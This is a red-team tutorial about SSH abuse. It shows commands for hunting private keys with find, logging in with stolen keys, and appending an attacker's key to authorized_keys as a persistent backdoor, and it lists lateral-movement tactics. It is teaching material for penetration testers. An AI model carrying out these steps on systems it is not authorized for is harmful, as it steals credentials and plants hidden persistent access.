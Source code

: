 # Day 11 – SSH: Secure Shell Access & Abuse
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/889f5ffe-e362-4c06-a357-c83ab0bb131b" />

SSH is the backbone of remote Linux access. But if mishandled, it can be exploited for persistence, lateral movement, and privilege escalation.

---

## 🔐 What is SSH?

SSH (Secure Shell) lets users log in to remote machines securely over a network.

Typical usage:
```bash
ssh user@host
```

---

## 📂 SSH Key Files

| File | Purpose |
|------|---------|
| `~/.ssh/id_rsa` | Private key |
| `~/.ssh/id_rsa.pub` | Public key |
| `~/.ssh/authorized_keys` | Contains keys allowed to log in |

---

## 🧠 Attacker Use Cases

### 1️⃣ Steal and Use Keys

Find private keys on the system:
```bash
find / -name id_rsa 2>/dev/null
```

Use a found key:
```bash
chmod 600 id_rsa
ssh -i id_rsa user@host
```

---

### 2️⃣ Persistent Backdoor via Key Injection

After compromising a system:
```bash
cat attacker_key.pub >> ~/.ssh/authorized_keys
```

You now have passwordless, undetectable access.

---

### 3️⃣ Check SSH Config for Weaknesses

View:
```bash
cat /etc/ssh/sshd_config
```

Look for:
- `PermitRootLogin yes`
- `PasswordAuthentication yes`

These settings can allow brute-force or root login vectors.

---

## 🧪 Task of the Day

1. Generate SSH Key:
```bash
ssh-keygen
```

2. View contents:
```bash
cat ~/.ssh/id_rsa.pub
```

3. Copy key to remote machine:
```bash
ssh-copy-id user@remote-ip
```

Or append manually:
```bash
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

4. Test login:
```bash
ssh user@remote-ip
```

---

## 🔐 Red Team Notes

| Goal | Action |
|------|--------|
| Persist on compromised host | Inject key into `authorized_keys` |
| Find lateral movement | Look for `.ssh/known_hosts` |
| Discover reused keys | Reuse `id_rsa` on other targets |

---

📡 For real-world red teaming and post-exploitation content, visit:  
➡️ [https://t.me/cybersecplayground](https://t.me/cybersecplayground)

## Tags
`#linux` `#ssh` `#persistence` `#redteam` `#infosec` `#pentesting` `#hacking`
